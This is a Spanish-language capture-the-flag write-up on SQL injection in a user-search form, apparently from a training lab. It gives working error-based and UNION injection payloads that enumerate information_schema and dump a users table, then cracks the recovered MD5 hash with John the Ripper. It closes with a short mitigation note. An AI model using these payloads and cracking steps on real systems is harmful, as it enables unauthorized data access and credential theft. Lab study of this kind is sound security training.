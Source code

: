 # Inyección SQL - Usuarios
### A03:2021-Injection

Misma vulnerabilidad que [la inyección SQL en la vista de imágenes](./sql_injection_images.md).

El ataque de **inyección SQL** consiste en la capacidad de realizar queries diréctamente a la base de datos del servidor mediante la introducción de queries SQL en parámetros de input **no sanitizado**.

## Ataque

En la url de http://<IP>/???, tenemos acceso a un input para buscar usuarios por id, por lo que suponemos que el input de usuario va a formar parte de una query a la base de datos.

Probamos si podemos tener acceso a una vulnerabilidad por mala validación de input; escribimos un `'` y enviamos.

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1
```

El servidor no valida la entrada, así que podemos intentar una injección.

Primero, obtenemos la versión de la base de datos del servidor con la siguiente query:

```sql
1 OR 1 GROUP BY CONCAT_WS(0x3a,VERSION(),FLOOR(RAND(0)*2)) HAVING MIN(0) OR 1-- -


Duplicate entry '5.5.64-MariaDB-1ubuntu0.14.04.1:1' for key 'group_key'
```
[Fuente: Andvanced SQL Injection Cheatsheet](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MySQL-Bypass-Error/README.md)


Tras invesigar esta versión, descubrimos que las versiones mayores de 5.02 de MySQL tienen una base de datos llamadas **INFORMATION_SCHEMA**, que contienen información sobre el resto de bases de datos guardadas en el servidor, lo que nos va a resultar útil en la exploración de la tabla users.

Exploranco [la documentación](https://dev.mysql.com/doc/refman/8.4/en/information-schema-columns-table.html), vemos que information_schema contiene una tabla **columns**, en donde se guardan los nombres de todas las columnas de todas las tablas presentes en la base de datos.

Desde el servidor se escapan los caracteres de comillas, por lo que tendemos que lanzar una query para obtener todas las columnas de todas las tablas.

Como desde el servidor únicamente se recuperan dos columnas para mostrar los parámetros en front, debemos hacer un **union** para concatenar dos columnas con la información que nos interesa.

```sql
1 or 1=1 union select concat_ws(0x2b,table_name,table_schema), column_name from information_schema.columns
```

Y de aquí obtenemos dos columnas interesantes de una tabla **users**.

```
ID: 1 or 1=1 union select concat_ws(0x2b,table_name,table_schema), column_name from information_schema.columns 
First name: users+Member_Sql_Injection
Surname : Commentaire

ID: 1 or 1=1 union select concat_ws(0x2b,table_name,table_schema), column_name from information_schema.columns 
First name: users+Member_Sql_Injection
Surname : countersign
```

Tras obtener los nombres de las columnas de la tabla `users`, sólo nos queda mirar los valores de las columnas sospechosas del usuario Flag.

```sql
420 or 1=1 union select Commentaire, countersign from users
```

Obtenemos lo siguiente:

```
ID: 420 or 1=1 union select Commentaire, countersign from users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```
Hacemos lo que nos pide con un john.

```bash
root@f4e2e2e5dc49:/# /john-jumbo/run/john --format=raw-md5 --wordlist=rockme.txt hashes
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=12
Note: Passwords longer than 18 [worst case UTF-8] to 55 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Warning: Only 1 candidate buffered, minimum 24 needed for performance.
FortyTwo         (user)
1g 0:00:00:00 DONE (2025-06-15 15:21) 100.0g/s 100.0p/s 100.0c/s 100.0C/s FortyTwo
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
root@f4e2e2e5dc49:/# echo -n FortyTwo | sha256sum
9995cae900a927ab1500d317dfcc52c0ad8a521bea878a8e9fa381b41459b646  -
```

He aquí la flag.

## Mitigaciones

- Validaciones en backend, sobre todo con respecto a uso de ORMs para parametrizar el input en queries.

## Referencias

- [OWASP: SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQL Injection cheatsheet](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MySQL-Bypass-Error/README.md)